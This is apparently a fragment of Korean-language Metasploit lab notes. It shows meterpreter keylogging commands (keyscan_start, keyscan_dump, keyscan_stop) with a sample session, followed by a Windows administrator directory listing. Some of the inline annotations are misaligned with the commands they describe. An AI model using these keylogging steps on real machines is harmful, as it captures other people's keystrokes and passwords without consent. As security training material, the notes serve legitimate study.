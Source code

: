 ![](./img/MSF.img/0010.png)

![](./img/MSF.img/0011.png)

키 스케닝
> keyscan_start <br>
> keyscan_dump <br>
> keyscan_stop

- keystroke(키보드로 입력하는 행위)
```
meterpreter > keyscan_start                 (keystroke 시작)
Starting the keystroke sniffer ...          (keystroke 덤핑)
meterpreter > keyscan_dump                  (keystroke 중지)
Dumping captured keystrokes...
```

c드라이브에 CloudDX 폴더 만들기
cmd창에서 
```
C:\Users\Administrator>dir
 C 드라이브의 볼륨에는 이름이 없습니다.
 볼륨 일련 번호: F8EC-8281

 C:\Users\Administrator 디렉터리

2025-05-13  오후 12:46    <DIR>          .
2025-05-13  오후 12:46    <DIR>          ..
2025-05-13  오후 12:46    <DIR>          .ssh
2025-03-13  오후 12:04    <DIR>          3D Objects
2025-03-13  오후 12:04    <DIR>          Contacts
2025-03-13  오후 01:09    <DIR>          Desktop
2025-03-13  오후 12:04    <DIR>          Documents
2025-03-13  오후 12:04    <DIR>          Downloads
2025-03-13  오후 12:04    <DIR>          Favorites
2025-03-13  오후 12:04    <DIR>          Links
2025-03-13  오후 12:04    <DIR>          Music
2025-03-13  오후 12:06    <DIR>          OneDrive
2025-03-13  오후 12:06    <DIR>          Pictures
2025-03-13  오후 12:04    <DIR>          Saved Games
2025-03-13  오후 12:06    <DIR>          Searches
2025-05-13  오전 11:46    <DIR>          Videos
               0개 파일                   0 바이트
              16개 디렉터리  39,355,318,272 바이트 남음
```
